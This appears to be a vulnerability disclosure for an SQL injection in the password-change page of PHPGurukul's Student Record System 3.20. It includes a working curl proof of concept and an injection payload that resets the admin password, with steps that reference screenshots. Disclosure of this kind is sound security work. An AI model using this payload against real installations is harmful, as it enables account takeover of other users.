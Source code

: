 
- Vendor : PHPGurukul
- Product : Student Record System Using PHP and MySQL
- Version : 3.20
- Official Website: https://phpgurukul.com/student-record-system-php/

Related Code file: change-password.php
Injection parameter: currentpassword, newpassword

## Vulnerability Description
The vulnerability is SQL Injection in Student Record System Using PHP and MySQL version 3.20
The currentpassword, newpassword parameters are vulnerable to SQL Injection when changing to a new password.
This vulnerability allows an attacker to inject a SQL query into the currentpassword, newpassword parameters to change the password of another user.
#### Impact Assessment 
This vulnerability allows an authenticated attacker to manipulate SQL queries during the password change process, potentially leading to:
- Unauthorized password changes for other user accounts

Affected Endpoint : http://127.0.0.1:8888/change-password.php
PoC : ```
```
curl -i -s -k -X POST \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -b "PHPSESSID=lg6rlbg3j0f1iaqfdvdvs9c4i3" \
    -d "currentpassword=' or id='1' -- -&newpassword=sqli' where id='1' -- -&confirmpassword=test&submit=Change" \
    "http://127.0.0.1:8888/change-password.php"
```

1. The account information for the current system looks like this:
   ![[1-pentest-20250829-0116.jpg]]

2. Login:
   ![[1-pentest-20250829-0110.jpg]]![[2-pentest-20250829-0110.jpg]]

3. Users can try to change the password:
   ![[1-pentest-20250829-0112.jpg]]

4. Intercept the traffic with burp suite and inject the SQL injection payload:
   `Payload: ' or id='1' -- -&newpassword=sqli' where id='1' -- -`
   ![[2-pentest-20250829-0112.jpg]]![[1-pentest-20250829-0120.jpg]]

5. The password for the admin account was changed to the string 'sqli'.   ![[1-pentest-20250829-0118.jpg]] 